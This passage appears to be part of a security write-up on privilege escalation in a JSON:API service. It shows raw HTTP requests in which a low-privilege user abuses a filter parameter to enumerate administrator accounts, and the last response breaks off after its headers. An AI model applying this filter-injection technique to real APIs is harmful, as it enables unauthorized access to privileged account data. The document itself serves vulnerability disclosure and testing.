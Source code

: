 ## Privilege Escalation
It is very likely to find certain endpoints that check user privileges through their role. For example, we are dealing with a user who has no privileges:
### Request
```
GET /api/companyUsers?include=role HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb......
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:13:08 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 11
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": []
}
```

Using certain operators we could enumerate administrator users:
### Request
```
GET /api/companyUsers?include=role&filter[companyUsers]=user.id=='94****************************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJh.....
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:13:45 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
```